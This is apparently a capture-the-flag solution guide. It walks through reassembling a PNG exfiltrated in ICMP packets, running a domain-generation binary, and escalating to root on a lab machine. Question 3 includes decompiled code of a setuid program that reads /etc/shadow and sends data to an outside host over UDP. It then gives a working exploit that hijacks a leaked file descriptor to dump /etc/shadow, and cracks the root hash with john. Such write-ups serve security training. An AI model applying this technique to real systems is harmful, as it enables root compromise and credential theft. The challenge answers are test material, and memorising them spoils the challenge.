


# All Your Domains Are Belong to Us

*Solution Guide*

## Question 1

*Using dga.pcap, what is the key string obtained by identifying and opening the file that was exfiltrated from the network?*

1. Download the necessary files from `challenge.us/files`



2. Open the `dga.pcap` file in Wireshark

You will notice that it only consists of ICMP packets. However, by inspecting the hex view of the first packet, you will see that it contains the file header for a PNG image. This header can be identified by the presence of the file signature for a png file: `89 50 4E 47 0D 0A 1A 0A`.


It appears that the typically unused "data" field of these ICMP packets is being used to exfiltrate a PNG image in pieces. By combining the pieces from all of the ICMP packets, it should be possible to reassemble the original image. 

3. Write a script to extract the data field from all of the ICMP packets and reassemble the image.

```py
import sys
from scapy.all import rdpcap

def extract_png_from_pcap(pcap_file : str, output_file : str):
  # Read all packets from the pcap file
  packets = rdpcap(pcap_file)
  hex_data = ""
  
  # Iterate through each packet to extract hex data from the Raw layer
  for packet in packets:
    if packet.haslayer("ICMP") and packet.haslayer("Raw"):
      # Append the hex representation of the Raw payload
      hex_data += packet["Raw"].load.hex()
  
  # Convert the concatenated hex data to binary and write to output_file
  with open(output_file, "wb") as f:
    f.write(bytes.fromhex(hex_data))

if __name__ == "__main__":
  if len(sys.argv) != 3:
    print("Usage: python extract.py <pcap_file> <output_file>")
    sys.exit(1)
  
  pcap_file = sys.argv[1]
  output_file = sys.argv[2]
  
  extract_png_from_pcap(pcap_file, output_file)
```

Save this script in a file named `extract.py` 

4. Run the script to extract the png image from the pcap

`python3 extract.py dga.pcap out.png`


5. Open the extracted png image


After opening the image, you will see the key string that the question is asking for. In this example, it is "3e227fc8". 

## Question 2

*What is the value of the token you receive by running the Grading Check at challenge.us and submitting the domain listed on the 14th line from the output of the doughmains binary?*

1. Open the `doughmains` program in Ghidra


2. Look at the decompile pane for the `main` function

From the decompilation, it appears that this program requires two arguments. The first argument is passed to the `read_key` function and the second argument is used to open a file in write mode. 


3. Look at the `read_key` function

The `read_key` function is using `fopen` in read mode to read the contents of the file and then returns back the contents of the file. Based on this information, we can conclude that the first argument is the path to a file that contains the key from Question 1 and the second argument is the filepath to the output where the list of domains for Question 2 will be written to.


4. Run `doughmains` using the key from Question 1.

```bash
echo -n "3e227fc8" > ./key.txt # Save the key from Question 1 to a file
chmod +x doughmains # Add execution permissions to doughmains
doughmains ./key.txt ./out.txt # Run the doughmains program
cat out.txt # Print the contents of the output file
```


In this example, the domain on the 14th line is `zhvuueisvz.com`

5. Submit the domain on the 14th line to the grader at `challenge.us`


In this example, the token provided by the grading check is: `c4d16e88`

## Question 3

*What is the value of the token found in the home directory of the root user on the escalate machine?*

1. Download the wordlist file from `challenge.us/files`


2. Connect to the `escalate` machine and view the running services and identify the non-standard program

List all of the running systemctl services. There is a `pwcheck` service which looks suspicious
`systemctl status`


Inspect the pwcheck service config
`cat /etc/systemd/system/pwcheck.service`


Find the binary that the service is running. The binary is owned by root and has setuid set, which makes it potentially vulnerable.  

```bash
which pwcheck
ls -al /usr/bin/pwcheck
file /usr/bin/pwcheck
```


3. Analyze the binary in Ghidra

Copy the binary from `escalate` to `kali`
`scp user@10.5.5.101:/usr/bin/pwcheck ~/Downloads`



Look at the decompile pane for the `main` function

From the decompilation, it appears that this program reads the `/etc/shadow` file, which contains the passwords for all users on the system (including root). It then does some processing of the contents of `/etc/shadow` and then sends the results to `/usr/local/bin/upload`

```c
undefined8 main(void)

{
  int __fd;
  __uid_t __uid;
  int iVar1;
  __pid_t _Var2;
  char *pcVar3;
  char *pcVar4;
  char *pcVar5;
  size_t __n;
  ssize_t sVar6;
  long lVar7;
  undefined8 *puVar8;
  long in_FS_OFFSET;
  byte bVar9;
  char *local_1478;
  char *local_1470;
  int local_1420;
  int local_141c;
  undefined8 local_1418;
  undefined8 local_1410;
  undefined8 local_1408 [126];
  char local_1018 [4104];
  long local_10;
  
  bVar9 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __fd = open("/etc/shadow",0);
  __uid = getuid();
  setuid(__uid);
  if (__fd != -1) {
    iVar1 = pipe(&local_1420);
    if (iVar1 == -1) {
      perror("pipe failed");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    while( true ) {
      lseek(__fd,0,0);
      _Var2 = fork();
      if (_Var2 == -1) {
        perror("fork failed");
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      if (_Var2 == 0) break;
      close(local_1420);
      while( true ) {
        sVar6 = read(__fd,local_1018,0x1000);
        if (sVar6 < 1) break;
        local_1478 = local_1018;
        local_1470 = strchr(local_1478,10);
        while (local_1470 != (char *)0x0) {
          local_1418 = 0;
          local_1410 = 0;
          puVar8 = local_1408;
          for (lVar7 = 0x7e; lVar7 != 0; lVar7 = lVar7 + -1) {
            *puVar8 = 0;
            puVar8 = puVar8 + (ulong)bVar9 * -2 + 1;
          }
          *local_1470 = '\0';
          pcVar3 = strchr(local_1478,0x3a);
          *pcVar3 = '\0';
          pcVar4 = strchr(pcVar3 + 1,0x3a);
          *pcVar4 = '\0';
          pcVar5 = strchr(pcVar4 + 1,0x3a);
          *pcVar5 = '\0';
          pcVar3 = strchr(pcVar3 + 1,0x24);
          if (pcVar3 != (char *)0x0) {
            snprintf((char *)&local_1418,0x400,"%s:%s\n",local_1478,pcVar4 + 1);
            __n = strlen((char *)&local_1418);
            write(local_141c,&local_1418,__n);
          }
          local_1478 = local_1470 + 1;
          local_1470 = strchr(local_1478,10);
        }
      }
      close(local_141c);
      wait((void *)0x0);
      pipe(&local_1420);
      sleep(0x3c);
    }
    close(local_141c);
    dup2(local_1420,0);
    execlp("/usr/local/bin/upload",(char *)0x0);
    perror("execlp failed");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  perror("Error opening file");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 1;
}
```

4. Analyze `/usr/local/bin/upload`

Check the permissions on the program: `ls -al /usr/local/bin/upload`

The file is owned by `user` and has execute permissions. 

Print out the file: `cat /usr/local/bin/upload`

This appears to be a Python script that sends the results to `10.5.5.5` on `UDP/1337`

```python
#!/usr/bin/python3

import sys
import socket

for line in sys.stdin:
  sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
  sock.sendto(line.encode(), ('10.5.5.5', 1337))

  print(line.strip())

```

Check the data being sent to `/usr/local/bin/upload` by running `pwcheck`

It appears that only the username and last password changed date are sent to this program. 


5. Identify the vulnerability

Refer back to the decompiled `main` function from step 3. The program opens `/etc/shadow` with root permissions before dropping down to user permissions. However, the file descriptor from that `open` function call is never closed. 

Additionally, the data is sent from `pwcheck` to `upload` by forking the `pwcheck` process, making `upload` a child process of `pwcheck`. This allows `upload` to access the file descriptors of the parent process. 

Since the `/usr/local/bin/upload` program is owned by `user`, it is possible to replace `upload` with a different program that will read the file descriptor for `/etc/shadow`


6. Write the exploit

```bash
#!/bin/bash

# Find file descriptor for /etc/shadow
FD=$(ls -al /proc/self/fd | grep shadow | awk '{print $9}')
echo $FD

# Create a C program to re-seek the file descriptor back to the start
cat << EOF > /tmp/reseek.c
#include <sys/types.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv) {
  int fd = atoi(argv[1]);
  lseek(fd, 0, SEEK_SET);
  return 0;
}
EOF
gcc -o /tmp/reseek /tmp/reseek.c
/tmp/reseek $FD

# Read the file descriptor and print its contents
cat <&$FD
```

Save this script in a file named `payload.sh`

7. Execute the exploit

```bash
chmod +x payload.sh
cp /usr/local/bin/upload /tmp/ # Save a copy of the original upload program
cp payload.sh /usr/local/bin/upload # Replace the upload program with our exploit
pwcheck # Run pwcheck and execute the exploit 
```

This will reveal the hashed password for the root user


8. Crack the password using `john`

Save the root user's password hash in a file called `hash.txt`

Run john with the provided wordlist: `john --wordlist=/home/user/Downloads/wordlist.txt ./hash.txt --format=crypt`

This should only take a minute or two. 


We can see that the password for `root` is `squeegee`

9. Log in with the root password and print out the token

```bash
su root
ls
cat root_token.txt
```


In this example, the token is `59cb580d`

